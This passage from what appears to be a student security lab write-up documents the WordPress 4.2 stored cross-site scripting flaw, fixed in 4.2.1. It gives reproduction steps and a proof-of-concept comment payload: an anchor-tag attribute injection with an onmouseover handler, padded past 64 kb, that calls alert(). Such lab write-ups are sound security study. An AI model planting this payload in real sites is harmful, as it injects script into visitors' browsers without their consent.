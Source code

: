 2. (Required) WordPress 4.2 Stored XSS
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: <img src="xss.gif" width="800">
  - [X] Steps to recreate: 
    -Create a new comment with script and make sure the comment exceeds 64kb of length, here is the proof of concepts:
    ```
    <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    ```
  - [X] Affected source code:
    - [Link 2](https://klikki.fi/adv/wordpress2.html)
